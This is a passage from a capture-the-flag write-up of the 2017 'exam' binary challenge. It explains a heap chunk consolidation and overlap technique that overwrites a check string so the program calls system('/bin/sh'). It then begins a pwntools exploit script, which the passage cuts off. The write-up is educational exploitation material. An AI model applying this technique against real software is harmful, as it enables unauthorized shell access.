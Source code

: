 Now that we have consolidated the heap to where chunk `0` is, we can go ahead and start allocating overlapping heap chunks. We will try and overwrite the values stored in chunk `2` (summary `1`). This is just because it is in the most convenient place to do so. Right now the start of our next summary which we will allocate (due to our previous work, we know it will go where the old chunk `0` was) will be `0xc0` (192) bytes away from the `ITSSTUDY` string we need to allocate in summary `1` (a bit more space than the space we specified `malloc` to allocate due to the heap metadata). If we were to allocate a summary, that would reduce the distance by `0x88` (136) bytes leaving us with `0x38` (56) bytes left. 

```
5:	0x88	Summary 0 overlaps with old chunk 0 and original Summary 0 
1:	0x19	Crib Heap forgot about this chunk
2:	0x88	Summary 1 Heap forgot about this chunk
3:	0x88	Summary 2 Heap forgot about this chunk
4:	0x88	(freed)
```

Now we can accomplish the rest with one more summary. The summary itself will take up another `0x10` (16) bytes (8 for the size value, eight for `ITSSTUDY`) before we can start writing. After that we will only have 40 bytes left untill we start overwriting `ITSSTUDY` with `ITSMAGIC` followed by `/bin/sh\x00` (we need the null byte to null terminate the string) for summary 1 which is within our range of `0x80` (128) bytes we can write:

```
5:	0x88	Summary 0 overlaps with old chunk 0 and original Summary 0 
6:	0x88	Encompasses old chunk 1, overlaps greatly with Chunk 2
2:	0x88	Summary 1 ITSSTUDY overwritten with ITSMAGIC followed by /bin/sh
3:	0x88	Summary 2 Heap forgot about this chunk
4:	0x88	(freed)
```

With that, we can just run the `handle_exam` function with summary one, it will pass the `ITSMAGIC` check, and will call `system` with `/bin/sh` as it's argument!

## Exploit

Here is the code for my exploit:

```
# This exploit is based off of: https://amritabi0s.wordpress.com/2017/10/19/hack-lu-2017-exam-write-up/

# Import pwntools
from pwn import *

# Establish the target process
target = process('./exam', env={'LD_PRELOAD': './libc.so.6'})
#gdb.attach(target)

# Establish the functions which we will use to interact with the target binary
def addSum(content):
	print target.recvuntil('>')
	target.sendline('1')
	print target.recvuntil('>')
	target.sendline(content)

def remSum(index):
	print target.recvuntil('>')
	target.sendline('2')
	print target.recvuntil('>')
	target.sendline(str(index))
def createCrib():
	print target.recvuntil('>')
	target.sendline('4')
def exam(index):
	print target.recvuntil('>')
	target.sendline('6')
```